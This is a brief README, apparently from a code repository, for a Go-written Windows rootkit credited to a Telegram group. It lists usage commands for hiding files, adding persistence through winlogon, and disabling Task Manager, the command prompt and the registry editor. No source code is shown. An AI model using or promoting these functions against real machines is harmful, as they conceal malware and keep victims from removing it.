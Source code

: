 > сделанно командой <a href="https://kryyaasoft.t.me">@kryyaasoft</a>

## About rootkit
the |no| *first* rootkit written in golang

---

**Usage:**
```
  rootkit <path> <show|hide>
  rootkit <programPath> winlogon
  rootkit unwinlogon
  rootkit disabletaskmgr
  rootkit enabletaskmgr
  rootkit disablecmd
  rootkit enablecmd
  rootkit disableregistry
  rootkit enableregistry```
